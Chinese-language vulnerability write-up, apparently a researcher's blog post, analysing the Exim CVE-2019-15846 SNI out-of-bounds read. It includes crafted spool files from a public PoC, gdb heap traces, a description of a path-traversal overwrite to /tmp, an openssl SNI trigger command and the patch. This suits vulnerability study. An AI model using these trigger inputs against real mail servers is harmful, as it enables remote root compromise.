


---

layout: post

title: 'CVE-2019-15846-Exim越界读导致远程代码执行漏洞分析'

date: '2019-10-17'

header-img: "img/home-bg.jpg"

tags:
     - 漏洞分析  
author: 'De4dCr0w'

---

<!-- more -->

### 漏洞背景

2019年9月6日18：00，exim发布exim-4.92.2版本修复了CVE-2019-15846，攻击者可以利用此漏洞远程获取root权限。漏洞由qualys发现并报告。

当exim支持TLS时，攻击者发送以'\0'结束的SNI，此时string_unprinting函数调用string_interpret_escape函数处理转义序列，由于string_interpret_escape函数中没有处理'\0'的情况，造成了越界读。qualys已经证实可以利用此漏洞远程获取root权限。

### 影响版本

exim < 4.92.2版本

### 环境搭建

（1）poc 地址：https://github.com/synacktiv/Exim-CVE-2019-15846

将1i7Jgy-0002dD-Pb-D 和1i7Jgy-0002dD-Pb-H 放入/var/spool/exim/input文件夹下，需要root权限。

```
1i7Jgy-0002dD-Pb-H
Debian-exim 103 114
<exim@synacktiv.com>
1568035612 0
-received_time_usec .793865
-helo_name test
-host_address 127.0.0.1.55748
-host_name localhost
-interface_address 127.0.0.1.25
-received_protocol esmtps
-body_linecount 3
-max_received_linelength 25
-tls_cipher TLSv1.3:TLS_AES_256_GCM_SHA384:256
-tls_sni abcdef\
-tls_ourcert -----BEGIN CERTIFICATE-----\nMIICoTCCAYkCFB9pKlofgtm4YdZqmpAaIz42yNqeMA0GCSqGSIb3DQEBCwUAMA0x\nCzAJBgNVBAYTAlVTMB4XDTE5MDkwODE0MTY0M1oXDTIyMDkwNzE0MTY0M1owDTEL\nMAkGA1UEBhMCVVMwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDM5+zK\nYgwwjX/4CMtHI1TZd99Jmiu42785IG0n6APdVWAZ8wKe+h3GEdT2RWgDWJWv/W/i\nTKYFtIMZbZmGaVpA43plWUL0CZ5tta8N88n5vx4Ylo1Ca5kf5tHg3K/mAGfY4w9z\n4RYbGepWS3I3s39aHQBDIrrxRdmdx/uJeD9hRyMmHjyMnK6Gds90KnuWu0yB3Yhk\nsV9uWW/eyHAo2bc0i3ubEVks6LkfL+Csg+x4sPcJIoeMoyIiovlxIgP5i7sTuFTL\ni8XgiRIGkDSHwanI2xOFi5F8yoLPcG2dOhWhHVa6h5KWve0KvNMlA0ZeQ987wpGe\n5aDuQ+4+Qskp2yptAgMBAAEwDQYJKoZIhvcNAQELBQADggEBAJRtTVMtSYqccO6Z\nnISpK1eHeqS7M3ON/iKhbUOvuiezBL818Zf9kx75Y+ql+f1WuSsndFsLRSNQoNjD\npe7w0f1trn49Xr1Hr8sorikWNb9ao45iLb1WvrSahXLwCeldfXV97kPnNESn3QJy\nFSUo8ApZ8LBum8DNd68pW8fKb8eS8ETcR8O3UcI7cUb1Lf+gXSNLhKYlNjzpWsXt\n6hv3LrD8225kds0zVpR9fXdwv+YgNsPJguLBOuSTQqQnC/mXGDGK7NZKvkJN5WgW\nUqRIGuNlLbL22epPGI+rcUX5nctbDQZIX6sAq2eiQtrijdTrgT4HlVMAO88FTzQK\nvidd7Hg=\n-----END CERTIFICATE-----\n
XX
1
exim@synacktiv.com

239P Received: from localhost ([127.0.0.1]:55748 helo=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbb)
	by artevelde with esmtps (TLSv1.3:TLS_AES_256_GCM_SHA384:256)
	(Exim 4.92)
	(envelope-from <exim@synacktiv.com>)
	id 1i7Jgy-0002dD-Pb
	for exim@synacktiv.com; Mon, 09 Sep 2019 15:26:52 +0200
026  Subject: My dear friends,
042I Message-Id: <E1i7Jgy-0002dD-Pb@synacktiv.com>
022F From: exim@synacktiv.com
038  Date: Mon, 09 Sep 2019 15:26:52 +0200

```

```
From: exim@synacktiv.com
To: exim@synactkiv.com
Subject: My dear friends,

Hello world,
```

（2）启动exim：

sudo /usr/exim/bin/exim -bd -q30m -dd

exim会在启动过程中去读取配置文件，执行到string_unprinting()漏洞函数，所以不能在启动后用gdb附加,而且启动后的触发漏洞的进程也会退出。根据poc作者的操作是set follow-fork-mode child就可以附加到漏洞进程，但我按这种方法都无法启动exim，所以换了个暴力的方法，在源码触发漏洞前加个等待读取的操作，再用gdb去附加漏洞进程。

/src/src/spool_in.c:



（3）附加漏洞进程：


（4）进行调试

### 漏洞分析


大部分调用string_interpret_escape()的函数都对传入的字符串有限制。例如nextitem()（src/filter.c）检查了字符串缓冲区是否溢出。string_dequote()函数只从配置文件中获取字符串。

string_unprinting()

（1）tls_import_cert()->string_unprinting()->string_interpret_escape()

由于证书是pem格式，用Base64编码，所以不可能包含'\0'序列

（2）src/spool_in.c


peerdn（src/spool_in.c）的使用并非默认配置，在Exim使用客户端证书验证时才会被调用

（3）最后关注到tls连接上，只要Exim支持tls连接，攻击者就可以发送sni，据此调用到string_unprinting() 和 string_interpret_escape() 函数

因为string_printing2()函数中将sni写入spool头文件时通过'\'对字符进行转义，但是未对转义字符'\'本身进行转义

```
tls_in.sni = string_unprinting(string_copy(big_buffer + 9));
```

在string_unprinting中判断'\\'进入string_interpret_escape流程，string_interpret_escape函数中没有对'\0'的判断，可以继续读取字符串，导致越界读。

string_unprinting函数作用是将输入缓冲区的内容（解析转义字符，如通过string_interpret_escape函数\x62转成b）写入到输出缓冲区。

在string_unprinting中判断'\'进入string_interpret_escape流程，string_interpret_escape函数中没有对'\0'的判断，可以继续读取字符串，并写入到输出缓存区中，因此造成越界读的同时也越界写了。过程如下图所示：


```
刚进入string_unprinting时：

s = 0x1e16de8
q = ss = 0x1e16df0
p = 0x1e16dee
off = 0x6
len = 0x8

第一次memcpy：
gdb-peda$ x/10gx 0x1e16de8
0x1e16de8:	0x005c666564636261	0x0000666564636261
0x1e16df8:	0x0000000000000000	0x0000000000000000
0x1e16e08:	0x0000000000000000	0x0000000000000000
0x1e16e18:	0x0000000000000000	0x0000000000000000
0x1e16e28:	0x0000000000000000	0x0000000000000000

```
```
进入string_interpret_escape前p的值：
gdb-peda$ p p
$24 = (const uschar *) 0x1e16dee ""

进入string_interpret_escape后p的值：
gdb-peda$ p p
$24 = (const uschar *) 0x1e16def ""
```

退出string_interpret_escape后p指针又自加了一次，所以一共自加两次，导致向前移动了一个'\','\0'两个字符，而'\0'的下一个字符为刚刚memcpy的"abcdef"，不为'\0'，所以while循环继续解析，导致第二次memcpy:

```
Guessed arguments:
arg[0]: 0x1e16df7 --> 0x0 
arg[1]: 0x1e16df0 --> 0x666564636261 ('abcdef')
arg[2]: 0x6 
arg[3]: 0x7 

第二次memcpy后：
gdb-peda$ x/10gx 0x1e16de8
0x1e16de8:	0x005c666564636261	0x6100666564636261
0x1e16df8:	0x0000006665646362	0x0000000000000000
0x1e16e08:	0x0000000000000000	0x0000000000000000
0x1e16e18:	0x0000000000000000	0x0000000000000000
0x1e16e28:	0x0000000000000000	0x0000000000000000
```
从越界读导致越界写。

exgen.py 构造的文件通过对堆的布局（需要在/var/spool/exim/input文件夹下放至少205个message-log文件），通过堆溢出将保存在堆中的文件名修改成../../../../../tmp/tote，并伪造sender_address，之后该字段保存的字符串会写入message-log文件（即../../../../../tmp/tote）中。

但该poc在测试环境中，堆无法布局成功（可能环境以及205个message-log文件不同），会覆盖top chunk，造成进程崩溃，但主进程会重新起进程。

使用exgen.py造成的堆布局（进入string_unprinting函数后）如下：

```
0x1210c10           0x2e000083          0x4010               Used                None              None
0x1214c20           0x0                 0x2020               Used                None              None
0x1216c40           0x0                 0x2ff0               Used                None              None
0x1219c30           0x0                 0x2020               Used                None              None
0x121bc50           0x0                 0x410                Used                None              None
gdb-peda$ p s
$6 = (uschar *) 0x1219ca0 'a' <repeats 89 times>, "\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x20\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00aaaaaaaaa\\\\x2e\\\\x2e\\\\x2f\\\\x2e\\\\"...

gdb-peda$ p len
$14 = 0xfc8

store_get之后分配的空间为：0x121ac68

gdb-peda$ p yield_length 
$17 = {0x20, 0x1ae8, 0xffffffff}

```

之后堆溢出破坏了top chunk：

```
0x1210c10           0x2e000083          0x4010               Used                None              None
0x1214c20           0x0                 0x2020               Used                None              None
0x1216c40           0x0                 0x2ff0               Used                None              None
0x1219c30           0x0                 0x2020               Used                None              None
Corrupt ?!
```

导致后面分配时错误，产生崩溃：



下面是自己做的尝试：

目前的poc：

openssl s_client -servername 'forbar\' -starttls smtp -connect 127.0.0.1:25 -cert ./root.pem -key ./root.key

当前问题：

Received TLS SNI "foobar\" (unused for certificate selection)
显示报错，无法触发到以上函数

证书生成脚本：

```
openssl genrsa -out root.key 4096
openssl req -x509 -new -nodes -key root.key -days 1825 -out root.pem
openssl genrsa -out server.key 4096
openssl req -new -key server.key -out server.csr
openssl x509 -req -in server.csr -CA root.pem -CAkey root.key -CAcreateserial -out server.crt -days 365

sudo cp ./root.pem /etc/ssl/exim.pem 
sudo cp ./root.key /etc/ssl/exim.key

```

gdb调试脚本：

```
路径：/home/osboxes/study/vul/exim

sudo gdb \
        -ex "file ./src/build-Linux-x86_64/exim" \
        -ex "attach $(ps -aux | grep exim |grep -v 508| grep -v grep |grep -v sudo|awk '{print $2}')" \
        -ex "set follow-exec-mode same" \
        -ex "b spool_read_header" \
        -ex "b spool_write_header" \
        -ex "b tls_import_cert" \
        -ex "b string_printing2" \
        -ex "b string_interpret_escape"\
        -ex "b string_unprinting"\
        -ex "b deliver_message" \
        -ex "b receive_msg" \
        -ex "continue"

```

配置文件修改部分：

```
sudo vim /usr/exim/configure 

tls_advertise_hosts = *

tls_certificate = /etc/ssl/exim.pem
tls_privatekey = /etc/ssl/exim.key

tls_require_ciphers = ECDSA:RSA:!COMPLEMENTOFDEFAULT

daemon_smtp_ports = 25 : 465 : 587
tls_on_connect_ports = 465

```

### 补丁分析


在string_interpret_escape函数中判断'\'后面是否为'\0'，如果是就不自加一次，直接返回'\'所在的地址。退出string_interpret_escape后在string_unprinting自加一次p指针指向'\0'的地址，while循环结束，不会越界读。

### 参考链接

https://www.synacktiv.com/posts/exploit/scraps-of-notes-on-exploiting-exim-vulnerabilities.html

http://exim.org/static/doc/security/CVE-2019-15846.txt

https://git.exim.org/exim.git/blob/2600301ba6dbac5c9d640c87007a07ee6dcea1f4:/doc/doc-txt/cve-2019-15846/qualys.mbx